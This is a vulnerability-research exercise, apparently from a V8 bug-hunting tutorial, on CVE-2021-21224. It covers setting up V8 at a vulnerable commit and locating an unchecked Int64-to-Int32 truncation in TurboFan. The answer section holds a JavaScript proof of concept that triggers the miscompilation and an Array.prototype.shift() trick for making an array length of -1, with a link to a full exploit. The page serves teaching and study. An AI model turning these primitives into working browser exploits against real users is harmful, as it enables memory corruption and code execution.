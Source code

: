 # Exercise 2

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21224
I sugget you don't search any report about it to prevents get too much info like patch. Our goal is to find some bugs, not construct Poc. But in truth, Poc can proof that we are right.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1195777

</details>

--------

### Set environment

Welcome to V8

if you have fetched v8, just
```sh
git reset --hard f87baad0f8b3f7fda43a01b9af3dd940dd09a9a3 
gclient sync
```
But if you not
```sh
# get depot_tools
git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
# add to env var
echo 'export PATH=$PATH:"/path/to/depot_tools"' >> ~/.bashrc
# get v8 source code
fetch v8
# chenge to right commit
cd v8
git reset --hard f87baad0f8b3f7fda43a01b9af3dd940dd09a9a3
# download others
gclient sync
```



### Related code

src/compiler/representation-change.cc

tips: Integer overflow

### Do it
Do this exercise by yourself, when you have some idea, you can compare your answer with me. If you find my answer have something wrong, please tell me.


---------

<details>
  <summary>My answer</summary>

  ```c++
// The {UseInfo} class is used to describe a use of an input of a node.
//
// This information is used in two different ways, based on the phase:
//
// 1. During propagation, the use info is used to inform the input node
//    about what part of the input is used (we call this truncation) and what
//    is the preferred representation. For conversions that will require
//    checks, we also keep track of whether a minus zero check is needed.
//
// 2. During lowering, the use info is used to properly convert the input
//    to the preferred representation. The preferred representation might be
//    insufficient to do the conversion (e.g. word32->float64 conv), so we also
//    need the signedness information to produce the correct value.
//    Additionally, use info may contain {CheckParameters} which contains
//    information for the deoptimizer such as a CallIC on which speculation
//    should be disallowed if the check fails.
  ```

  When do truncation we need check the `{CheckParameters}` like `use_info.type_check() == TypeCheckKind::kSignedSmall`, and if the check fails will trigger deoptimize.

  ```c++
enum class TypeCheckKind : uint8_t {
  kNone,
  kSignedSmall,
  kSigned32,
  kSigned64,
  kNumber,
  kNumberOrBoolean,
  kNumberOrOddball,
  kHeapObject,
  kBigInt,
  kArrayIndex
};
  ```

  The reasons for bug is missing a check of `use_info`
  ```c++
Node* RepresentationChanger::GetWord32RepresentationFor(
    Node* node, MachineRepresentation output_rep, Type output_type,
    Node* use_node, UseInfo use_info) {
  // Eagerly fold representation changes for constants.
  switch (node->opcode()) {
    case IrOpcode::kInt32Constant:
    case IrOpcode::kInt64Constant:
    case IrOpcode::kFloat32Constant:
    case IrOpcode::kFloat64Constant:
      UNREACHABLE();
    case IrOpcode::kNumberConstant: {
      double const fv = OpParameter<double>(node->op());
      if (use_info.type_check() == TypeCheckKind::kNone ||
          ((use_info.type_check() == TypeCheckKind::kSignedSmall ||
            use_info.type_check() == TypeCheckKind::kSigned32 ||
            use_info.type_check() == TypeCheckKind::kNumber ||
            use_info.type_check() == TypeCheckKind::kNumberOrOddball ||
            use_info.type_check() == TypeCheckKind::kArrayIndex) &&
           IsInt32Double(fv))) {
        return MakeTruncatedInt32Constant(fv);
      }
      break;
    }
    default:
      break;
  }

  // Select the correct X -> Word32 operator.
  const Operator* op = nullptr;
  if (output_type.Is(Type::None())) {
    // This is an impossible value; it should not be used at runtime.
    return jsgraph()->graph()->NewNode(
        jsgraph()->common()->DeadValue(MachineRepresentation::kWord32), node);
  [ ... ]
  } else if (output_rep == MachineRepresentation::kWord8 ||
             output_rep == MachineRepresentation::kWord16) {
    DCHECK_EQ(MachineRepresentation::kWord32, use_info.representation());
    DCHECK(use_info.type_check() == TypeCheckKind::kSignedSmall ||
           use_info.type_check() == TypeCheckKind::kSigned32);
    return node;
  } else if (output_rep == MachineRepresentation::kWord64) {
    if (output_type.Is(Type::Signed32()) ||
        output_type.Is(Type::Unsigned32())) {
      op = machine()->TruncateInt64ToInt32();     [1]
    } else if (output_type.Is(cache_->kSafeInteger) &&
               use_info.truncation().IsUsedAsWord32()) {
      op = machine()->TruncateInt64ToInt32();
  ```
  [1] Truncate Int64 To Int32 without check. This lead to Integer overflow.

  We should search for how can we insert one `TruncateInt64ToInt32` node. I have no idea about it but I guess `kWord64` var as `Signed32` and `Unsigned32` can convert from Int64 to Int32, and we can set 0xffffffff for y(Word32) and if convert to int32 can be -1.

  **Poc**
  ```js
function foo(a)
{
    let x = -1;
    if(a) x = 0xffffffff;
    return -1 < Math.max(x,0);
}

console.log(foo(true)) //prints true
for (let i = 0; i < 0x10000; ++i) foo(false)
console.log(foo(true)) //prints false
  ```
  When construct Poc of turbofan, we need analysis turbolizer or break at `../../src/compiler/representation-change.cc:853` to know whether we get kWord64 and convert to int32. I get this poc form [there](https://iamelli0t.github.io/2021/04/20/Chromium-Issue-1196683-1195777.html#rca-of-issue-1195777)

  checkbounds—elimination had been bannde and `Array.prototype.shift()` is a trick which has been patched now, but this commit can trigger it, we can make array length == -1 by shift
  ```js
let vuln_array = new Array(0 - Math.max(0, x));
vuln_array.shift();
  ```

  full exp can be found [here](https://bugs.chromium.org/p/chromium/issues/detail?id=1195777#c15)

</details>

--------
